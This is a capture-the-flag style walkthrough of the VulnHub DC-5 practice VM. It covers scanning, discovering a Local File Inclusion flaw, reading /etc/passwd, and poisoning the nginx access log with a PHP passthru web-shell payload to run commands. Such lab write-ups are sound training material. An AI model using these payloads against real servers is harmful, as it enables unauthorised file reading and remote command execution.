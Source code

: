 # DC: 5
[VulnHub link](https://www.vulnhub.com/entry/dc-5,314/)  
By DCAU

* As with the first 4 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-5/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-5/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.11`.
* The host is running 2 services, HTTP at port 80 and rpcbind at port 111. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.11`:
![](/screenshots/dc-5/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open), as with the previous iteration of the dc series.
* Opening `http://10.0.2.11` reveals a site with paragraphs of random sample texts greeting us:
![](/screenshots/dc-5/siteWebServer.jpg)
* At this point in time, I could not be more stuck. I tried using Burp Suite on the Contact form as was done in the previous walkthrough for DC-4, but to no avail.
* A hint that I got was that when I repeatedly submitted the Contact form, the copyright year at the bottom may differ:
![](/screenshots/dc-5/copyrightYears.jpg)
* It was either 2017, 2018, 2019 or 2020. Interesting. The copyright year on any of the other pages would be 2019.
* Even when I was repeatedly refreshing `http://10.0.2.11/thankyou.php` which had no parameters, the year was still changing. A contact form that is submitted would result in the URL being `http://10.0.2.11/thankyou.php?firstname=&lastname=&country=australia&subject=`.
* On hindsight, the only indication that I got from looking at the page source, is that the closing HTML tag for footer was rather out of place:
![](/screenshots/dc-5/contactFormSubmitPageSource.jpg)
* While I understood that we could modify the data (within the various options) being sent, what I did not know was that we could attempt our own options as well. Such an option would be `file`, where we would want to read the contents of specific files within the web server. It turns out that this vulnerability is called **Local File Inclusion** (LFI).
* After understanding this, we will now attempt to get the contents of `/etc/passwd`, by entering `http://10.0.2.11/thankyou.php?file=/etc/passwd`:
![](/screenshots/dc-5/etcPasswdFile.jpg)
* Interestingly, if we did not include any file to load in the parameter, the footer contents would disappear, i.e. no Copyright © 2019 would be retrieved.
* Also, `/etc/passwd` seems to be one of the common files used to test for LFI, because I guess virtually everyone would have that file on their web servers. Attempting to load a file that does not exist may lead us to be mistaken that LFI is not present.
* As much as we now know a list of users, we do not have a login page or ssh to attempt our logins.
* It turns out that to get our shell, we would have to exploit it through the *nginx access logs*.
* First, we have to find out where the access logs are located. A common location of the file is `/var/log/nginx/access.log`. Run: `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log`:
![](/screenshots/dc-5/nginxAccessLog.jpg)
* Note: For Apache2 web servers, the location is also likely to be the same, except that it would be found under the `apache2` directory in `/var/log` instead.
* We can now confirm that we are able to retrieve the access logs, which span many, many pages.
* I accessed `http://10.0.2.11/testing-out-that-i-am-able-to-read-the-access-logs`, just to test out what we know about the access logs - that these files record all requests processed by the server.
![](/screenshots/dc-5/nginxAccessLogTest.jpg)
* Note: The latest records are found at the bottom of the log file.
* Next, run `nc 10.0.2.11 80`, then enter `GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1`.
* After that, run `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log&cmd=id` and refresh the page to confirm that we are able to run commands. We should expect to see the output of running `id` in the access logs.

# Other walkthroughs visited
1. https://bzyo.github.io/dc-5/